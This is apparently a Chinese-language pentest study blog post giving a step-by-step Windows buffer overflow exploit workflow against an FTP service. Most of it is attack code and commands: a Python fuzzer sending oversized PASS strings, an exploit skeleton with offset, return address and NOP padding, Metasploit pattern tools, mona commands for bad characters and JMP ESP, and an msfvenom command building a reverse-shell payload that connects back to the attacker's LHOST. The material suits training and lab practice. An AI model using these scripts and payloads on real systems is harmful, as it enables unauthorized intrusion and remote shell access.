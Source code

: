 ```yaml
---
title: 缓冲区溢出流程
date: 2021/12/12
tags: [bufferover,渗透测试]
categories: 渗透测试
temp_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_14.jpg
banner_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_14.jpg
---
```




# 缓冲区溢出流程

### 一、**Immunity Debugger**

- 最好以管理员的身份运行Innunity debugger

- 通常有两种方法可以使用 Immunity Debugger 来调试应用程序：

1. 确保应用程序正在运行，打开 Immunity Debugger，然后使用`File -> Attach`调试器攻击正在运行的进程。
2. 打开 Immunity Debugger，然后使用它`File -> Open`来运行应用程序。

- 在 Immunity Debugger 中附加到应用程序或打开应用程序时，应用程序将被暂停。单击“运行”按钮或按 F9。

### 二、**mona**

Mona 是一个强大的 Immunity Debugger 插件，可以更轻松地利用缓出。下载：[:download:`mona.py <../_static/files/mona.py>`](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst#id1)

最新版本可以在这里下载：[https](https://github.com/corelan/mona) : [//github.com/corelan/mona](https://github.com/corelan/mona)

这里找到：[https](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/) : [//www.corelan.be/index.php/2011/07/14/mona-py-the-manual/](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/)

将 mona.py 文件复制到 Immunity Debugger 的 PyCommands 目录(通常位于C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands）。

在 Immunity Debugger 中，键入以下内容以设置 mona 的工作目录。

`!mona config -set workingfolder c:\mona\%p`

### 三、**模糊测试**

- 可以修改以下 Python 脚本，它将发送越来越长的缓冲区字符串，最终使应用程序崩溃。

```python
import socket, time, sys

ip = "MACHINE_IP" //目标IP
port = 21  
timeout = 5

# Create an array of increasing length buffer strings.
buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        s.send("USER username\r\n")
        s.recv(1024)

        print("Fuzzing PASS with %s bytes" % len(string))
        s.send("PASS " + string + "\r\n")
        s.recv(1024)
        s.send("QUIT\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)

```

- 检查 EIP 寄存器是否已被 A (\x41) 覆盖，并记下使崩溃发送的字节长度

### 四、**控制EIP**

以下python漏洞利用代码可用于缓冲区溢出漏洞利用的其余部分：

```python
import socket

ip = "10.0.0.1"   //目标IP
port = 21

prefix = ""
offset = 0  //EIP偏移量
overflow = "A" * offset   //无意义的填充物
retn = ""     //ESP跳板
padding = ""  //nop缓冲区(至少/x90 *16)
payload = ""  //恶意代码
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")

```

#### 寻找EIP

- 使用导致崩溃的缓冲区长度，生成一个唯一的缓冲区，以便我们可以确定覆盖 EIP 寄存器的模式中的偏移量，以及其他寄存器指向的模式中的偏移量。创建一个比崩溃缓冲区大 400 字节的模式，以便我们可以确定我们的 shellcode 是否可以立即适应。

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600    //应该将600修改为比缓冲区崩溃长度大400字节的数字
```

- 使用 mona 的 findmsp 命令，并将距离参数设置为比缓冲区崩溃大400的数字，确定EIP偏移量

```
!mona findmsp -distance 600   //600应该更改
```

- 或者在攻击机机器里使用下面的命令来确定EIP偏移量

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 35724134   //后面的数字是EIP的值
```

### **五、查找坏字符**

- 使用 mona 生成字节数组，并默认排除空字节 (\x00)。请注意生成的 bytearray.bin 文件的位置

`!mona bytearray -b "\x00"`

- 现在生成一串与字节数组相同的坏字符。以下 python 脚本可用于生成从 \x01 到 \xff 的坏字符字符串：

```python
#!/usr/bin/env python
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()

```

- 使用 mona compare 命令引用你生成的字节数组，以及 ESP 指向的地址：

```
!mona compare -f C:\mona\appname\bytearray.bin -a <esp地址>  
```

- 使用Ctrl + F4组合键可以查看之前找到的坏字符
- 注意：应该逐个排除坏字符，因为前一个坏字符可能会影响到后一个，导致好的字符被误判为坏字符

### **六、寻找跳板(ESP)**

- 使用以下指令寻找ESP，并且确保不会出现坏字符：

`!mona jmp -r esp -cpb " "  //引号内的是坏字符`

- 会显示多个ESP结果，都行，记下地址，写到代码中时地址要反过来写，因为进出顺序不同

### **七、生成有效载荷**

- 使用 msfvenom 生成反向 shell 负载，确保排除之前发现的相同错误字符：

```
msfvenom -p windows/shell_reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d" -f py -v payload

-p 载荷类型
LHOST 本机地址
LPORT
-b 坏字符
-f 编译的语言
-v 载荷的名称
```

- 注意：生成的载荷是字节类型的，放入python3脚本的时候可能需要转换成字符串类型

### **八、预先准备 NOP**

- 如果使用了编码器（如果存在错误字符的可能性很大，请记住在有效负载之前至少添加 16 个 NOP (\x90)。